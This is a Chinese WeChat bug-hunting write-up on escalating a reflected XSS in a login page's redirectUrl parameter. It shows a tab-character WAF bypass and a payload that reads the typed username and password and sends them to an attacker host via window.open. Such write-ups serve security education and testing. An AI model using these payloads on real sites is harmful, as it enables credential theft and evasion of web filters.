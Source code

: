 #  一则不能弹出cookie的XSS漏洞的危害升级

原创 dandh811 [ 薯条机器猫 ](javascript:void\(0\);)

**薯条机器猫** ![]()

微信号 gh_fe8eae7d8dce

功能介绍 专注漏洞挖掘技术分享。

____

___发表于_

假定测试目标：example.com

打开被测系统，是一个登录页面：https://passport.example.com/login/index.html?redirectUrl=https://www.example.com/#/

发现redirectUrl参数值可控，参数值会写入到登录表单form的action参数中，可能存在XSS漏洞和url跳转漏洞。让我们试一试。构造payload如下：

  * 

    
    
    https://passport.example.com/login/index.html?redirectUrl=javascript:alert(/xss/)

但是被阻断了，后端有WAF之类的。

经多次尝试，是可以绕过的，payload为：

  * 

    
    
    javascript:al%09ert(/xss/)

被害用户点击攻击者构造的url，登录后触发xss弹窗。

进一步试试能否弹出cookie  

  * 

    
    
    javascript:al%09ert(document.cookie)

弹窗了，但是返回为空。可能是cookie中设置了某些安全属性，那么这种漏洞的危害非常有限了。  

正在准备放弃时，突然想到如果无法获取被害用户的cookie，那么能否获取他的密码呢？如果可以的话，跟发送cookie的性质就类似，甚至危害还更大。

尝试做了些这方面的尝试，最终证明是可以的，构造payload如下：

  * 

    
    
    https://passport.example.com/login/index.html?redirectUrl=javascript:window.op%09en(%22https://hacker.com/%22+document.getElementsByClassName("input-default")[0].value+"/"+document.getElementsByClassName("input-default")[1].value)

getElementsByClassName("input-default")[0].value
获取到用户名的值，getElementsByClassName("input-default")[1].value 获取到密码的值

将完整的url发送给被害用户，用户登录时，js部分会获取用户输入的用户名和密码，并使用window.open函数跳转到攻击者的网站。

最终攻击者的服务器就会收到这样一条日志：  

https://hacker.com/(username)/(password)  

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# 一则不能弹出cookie的XSS漏洞的危害升级

原创 dandh811 [ 薯条机器猫 ](javascript:void\(0\);)

轻触阅读原文

![]()

薯条机器猫

赞 分享 在看

向上滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看 分享 留言


